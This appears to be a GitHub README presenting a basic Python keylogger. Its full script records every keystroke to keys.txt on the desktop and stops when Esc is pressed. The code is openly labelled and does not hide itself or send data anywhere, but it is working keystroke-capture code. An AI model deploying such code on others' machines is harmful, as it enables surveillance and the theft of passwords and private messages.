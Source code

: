 # Keylogger Script

This repository contains a Python script that implements a basic keylogger. The script captures and logs keystrokes, saving them to a file named `keys.txt` on the user's desktop.

## Overview

- **Functionality**: The keylogger monitors and records each keystroke.
- **Storage**: Keystrokes are saved in `keys.txt` on the desktop.
- **Control**: The script stops recording when the `Esc` key is pressed.

## Code Explanation

```python
import keyboard  # Import the keyboard library
import os

# Define the file path for saving keystrokes
desktop_path = os.path.expanduser("~/Desktop")  # Get the path to the desktop
log_file = os.path.join(desktop_path, "keys.txt")  # Define the full file path

def log_key(keyboard_event):
    with open(log_file, "a") as f:
        if keyboard_event.name:  # Check if the key has a name attribute
            f.write(f"{keyboard_event.name}\n")  # Write the key to the file

# Set up the keylogger
keyboard.on_press(log_key)  # Register the function to be called on each key press

# Run the keylogger until 'esc' is pressed
print("Keylogger is running. Press 'Esc' to stop.")
keyboard.wait('esc')  # Block program execution until 'esc' is pressed
print("Keylogger stopped.")
